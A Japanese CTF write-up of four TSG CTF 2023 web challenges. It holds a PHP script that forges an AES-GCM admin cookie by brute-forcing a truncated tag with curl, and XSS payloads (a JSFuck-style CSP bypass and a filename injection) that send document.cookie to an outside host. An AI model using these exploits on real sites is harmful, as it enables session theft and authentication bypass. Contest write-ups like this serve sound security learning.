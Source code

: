```yaml
---
title: TSG CTF 2023 Writeup
date: 2023-11-09T22:00:00+09:00
type: post
---
```


TokyoWesternsで参加していて2位でした。
コンテスト終了3分後にabsurdresのフラグが降ってきたので悔しい〜

以下解いた問題

## Upside-down cake

1000文字以下の回文を入力できれば勝ち、だがrequest body sizeの制限がかかっており1000文字送りつけることはできない。

`string.length < 1000` などのチェックを以下のJSONで回避する。

```json
{"palindrome":{"length": "a","0":"a","NaN":"a"}}
```

FLAG: `TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}`

## #DANCE

tagの長さが検証されていない。
以下の記事を見ながらadminのCookieを作る。

https://www.mbsd.jp/research/20200901/aes-gcm/

```php
<?php
$admin = 'admin';
$guest = 'guest';
$xors = [];
for ($i = 0; $i < 5; ++$i) {
  $xors[$i] = ord($admin[$i]) ^ ord($guest[$i]);
}

$iv = 'pMCoutsCcWDg7gRu';
/*
$secret = 'wakaran';
$auth = openssl_encrypt('guest', 'aes-128-gcm', $secret, 0, $iv, $tag);
*/
$auth = 'GEfNr0k=';

$newAuth = base64_decode($auth);
$unpacked = unpack('C*', $newAuth);
for ($i = 0; $i < 5; ++$i) {
  $unpacked[$i+1] = $unpacked[$i+1] ^ $xors[$i];
}
$adminAuth = base64_encode(pack('C*', ...$unpacked));

for ($i = 0; $i < 256; ++$i) {
  $tag = pack('C*', $i);
  /*
  $res = openssl_decrypt($adminAuth, 'aes-128-gcm', $secret, 0, $iv, $tag);
  if ($res) {
    var_dump($i);
    var_dump($res);
    break;
  }
  */
  $tag = base64_encode($tag);
  system("curl http://34.84.176.251:8080/mypage.php -H 'Cookie: auth=$adminAuth; iv=$iv; tag=$tag' --silent");
}
```

FLAG: `TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}`

Web問か...?

## Brainfxxk Challenge

`/minify` APIを使うと入力文字の `><+-=r[]` 以外の文字が消されて出力される。

HTMLは出力できるがCSPで `script-src: 'self'` がかかっているので、 `/minify` APIを使って回避する。

往年のJSFuck問だがDOM Clobberingのおかげで手でもかける。

`location='http://mocos.kitchen:12345/' + document.cookie` を作ることを目標にシコシコ書いていく。

方針:

- `'name'` を作るため、 `<a href='name://'>` を文字列にして1文字目から4文字目を結合
- 必要な各種文字列を `<a>` のnameに設定し、 `r['name']` のようにして読み取る
- `window.location` のかわりに `[IFRAME Element].location` を代入する。

```javascript
rrrrr[
  r[
  rrrr =
  [r + [rr = [] == []]][rr = +rr][rr] + // n
  [r + []][rrr = rr][++rrr] + // a
  [r + []][rr][rrr + rrr] + // m
  [r + []][rr][rrr + rrr + rrr] //e
  ] // 'location'
] =
  rrrrrr + rrrrr[rrrrrr[rrrr]][rrrrrrr[rrrr]] // document.cookie
```

```html
<a name=location id=r href='name://'></a>
<a name=document id=rrrrrr href="http://mocos.kitchen:12345/"></a>
<a name=cookie id=rrrrrrr></a>

<iframe name=rrrrr></iframe>

<script src="/minify?code=rrrrr%5b%0d%0a%20%20r%5b%0d%0a%20%20rrrr%20%3d%0d%0a%20%20%5br%20%2b%20%5brr%20%3d%20%5b%5d%20%3d%3d%20%5b%5d%5d%5d%5brr%20%3d%20%2brr%5d%5brr%5d%20%2b%20%2f%2f%20n%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brrr%20%3d%20rr%5d%5b%2b%2brrr%5d%20%2b%20%2f%2f%20a%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brr%5d%5brrr%20%2b%20rrr%5d%20%2b%20%2f%2f%20m%0d%0a%20%20%5br%20%2b%20%5b%5d%5d%5brr%5d%5brrr%20%2b%20rrr%20%2b%20rrr%5d%20%2f%2fe%0d%0a%20%20%5d%20%2f%2f%20'location'%0d%0a%5d%20%3d%0d%0a%20%20rrrrrr%20%2b%20rrrrr%5brrrrrr%5brrrr%5d%5d%5brrrrrrr%5brrrr%5d%5d%20%2f%2f%20document.cookie"></script>
```

FLAG: `TSGCTF{u_r_j5fuck_m4573r}`

## absurdres

CSP nonceで制限されているXSS問。
レスポンスに含まれている `![xxx](...)` が `<img srcset="..." alt="xxx">` に変換されるフィルターが存在する。
アップロードしたファイルを閲覧する画面で、script内に `![...](...)` を埋め込むことでエラーを出さないようにパズルをしながら関数を実行する。

```html
        <script nonce="{{csp_nonce()}}">
            const files = {{files|json|safe}};
```

その他、パズルに必要な要素がいっぱい出てくるがざっと列挙してみるとこんな感じ。

- script内に埋め込めるものとしては画像ファイルのファイル名とその拡張子
- ファイル名部分に使える文字はアルファベットのみなので、 `![]().png` のようなファイル名はエラーとなるが、 `/` の前と `.` と `.` の間はなんでもOK `XXXX/FILENAME.XXXX.XXXX` の `XXXX` の部分にペイロード突っ込めるのでまあまあ自由度はある
- ガチャガチャやってると最後に `/assets/images/FILENAME.x2.png` がJavaScriptとして評価されるので邪魔してくる。DOM Clobberingでこれがエラーとならないように対策する。
- アップロードファイルの拡張子がpngやjpgでないとPILによって怒られるため、拡張子に攻撃ペイロードを埋め込むことはできなさそうに見えるが、PILに怒られる前にDBにはレコードが登録されているので画像の閲覧画面には遷移できる。アップロードしたファイルのIDはコンテンツのmd5なので推測可能。

最終的に以下のファイル名のファイルを作ると動作する。

```
testx.)bbb![//test.](.png}];""; id=assets ; name=images `;"<form id=test>${location=(atob('Ly9tb2Nvcy5raXRjaGVuOjEyMzQ1Lw')+document['cookie'])}<input id=x2>";
```

ファイル名に `"` とか入っているが、 `filename*=utf-8''[URL encoded filename]` でOK

```
Content-Disposition: form-data; name="image"; filename*=utf-8''testx.%29bbb!%5b%2f%2ftest.%5d%28.png%7d%5d%3b%22%22%3b%20id%3dassets%20%3b%20name%3dimages%20%60%3b%22%3cform%20id%3dtest%3e%24%7blocation%3d%28atob%28%27Ly9tb2Nvcy5raXRjaGVuOjEyMzQ1Lw%27%29%2bdocument%5b%27cookie%27%5d%29%7d%3cinput%20id%3dx2%3e%22%3b
Content-Type: image/png
```

FLAG: `TSGCTF{1girl, hacker, in front of computer, hooded, in dark room, table, sitting, keyboard, 8k wallpaper, highly detailed, absurdres}`

`navigator.sendBeacon(...)` でFLAGをleakさせようとしていたのだけど、なぜか手元のChromeでは動作してAdmin botではうまく行かなかった...
普通に `location=...` でFLAG飛ばせば動作した。
終了直前に取り組んだため、手元に環境を用意する暇もなく、もっと早く取り組んでおけばと反省した問題。
